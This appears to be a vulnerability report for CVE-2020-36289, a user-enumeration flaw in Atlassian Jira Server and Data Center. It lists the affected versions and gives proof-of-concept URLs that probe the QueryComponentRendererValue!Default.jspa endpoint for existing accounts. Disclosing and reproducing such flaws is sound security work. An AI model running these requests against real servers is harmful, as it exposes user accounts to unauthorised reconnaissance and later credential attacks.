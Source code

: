 

# JIRA User Enumeration (CVE-2020-36289)


## Summary

Affected versions of Atlassian Jira Server and Data Center allow an unauthenticated user to enumerate users via an Information Disclosure vulnerability in the QueryComponentRendererValue!Default.jspa endpoint.

The affected versions are before version 8.5.13, from version 8.6.0 before 8.13.5, and from version 8.14.0 before 8.15.1.

 **Affected versions:**

-   version < 8.5.13
-   8.6.0 ≤ version < 8.13.5
-   8.14.0 ≤ version < 8.15.1

## Steps To Reproduce

To check if version is vulnerable, go to:

https://$DOMAIN/jira/secure/Dashboard.jspa

Version v8.15.0

**POC** 

To check the existence of the user admin 
https://$DOMAIN/jira/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

Non existent user

https://$DOMAIN/jira/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin123456
Gives an error. 

## Impact

Attacker can enumerate all existing users and leak sensitive info on this Jira server. 

### Supporting Material/References:
 - [JIRA](https://jira.atlassian.com/browse/JRASERVER-71559)


